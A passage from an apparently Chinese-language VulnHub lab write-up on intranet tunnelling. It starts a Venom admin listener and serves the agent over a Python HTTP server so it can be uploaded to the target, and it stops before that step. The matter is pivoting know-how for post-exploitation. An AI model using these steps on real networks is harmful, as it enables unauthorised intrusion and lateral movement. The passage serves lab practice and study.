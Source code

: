 
### 5.1 内网穿透

内网穿透

内网穿透工具：Venom

项目地址：https://github.com/Dliv3/Venom

在下载和使用本项目的时候，可以下载编译好的工具👀

- 先在本地启动监听

```bash
./admin_linux_x64 -lport 6666
```

![image-20220119171202659](https://raw.githubusercontent.com/NUK96/VulnHub_TargetDrone_Pratice/main/images/%E6%9C%8D%E5%8A%A1%E7%AB%AF%E5%90%AF%E5%8A%A8%E7%9B%91%E5%90%AC.png)



- 然后需要将agent上传到客户端，于是可以在当前文件目录利用python临时搭建http服务

- ```bash
	python3 -m http.server 80
	```

![image-20220119171328654](https://raw.githubusercontent.com/NUK96/VulnHub_TargetDrone_Pratice/main/images/%E5%90%AF%E5%8A%A8http%E6%9C%8D%E5%8A%A1.png)
